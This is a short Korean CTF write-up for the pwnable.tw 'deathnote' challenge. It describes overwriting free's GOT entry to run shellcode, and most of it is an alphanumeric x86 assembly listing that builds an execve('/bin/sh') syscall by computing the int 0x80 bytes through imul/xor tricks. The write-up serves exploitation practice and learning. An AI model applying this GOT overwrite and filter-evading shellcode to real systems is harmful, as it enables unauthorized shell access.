 # pwnable.tw_deathnote
#alpha_numeric shellcode  
free의 got 값을 바꾸어 free가 실행될 때, 쉘코드가 실행되게 한다.  
이때, 인자로 /bin/sh의 문자열을 넣어주어 /bin/sh는 해결해준다  
이제 80바이트로 쉘코드를 만들어주어야 한다.  
eax: 0xb   
ebx: /bin/sh의 주소가 들어간다  
edx와 ecx에는 널바이트  
int 0x80 호출  

가장 큰 문제는 int 0x80이다. => 직접 만들어주기는 힘들기 때문에 연산과정을 거쳐 만들어준다.  
0x80cd=32973=9\*99\*37+6  

push eax  
pop ecx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
xor [ecx+0x78],ebx  
imul edx, [ecx+0x78], 99  
xor [ecx+0x78],ebx  
xor [ecx+0x78],edx  
imul ebx, [ecx+0x78], 37  
xor [ecx+0x78],edx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
inc ebx  
xor [ecx+0x78],ebx  
push eax  
pop ebx  
imul edx,[eax+0x70],32  
imul ecx,[eax+0x70],32  
imul eax,[eax+0x70],32  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax  
inc eax   

jmp to int 0x80
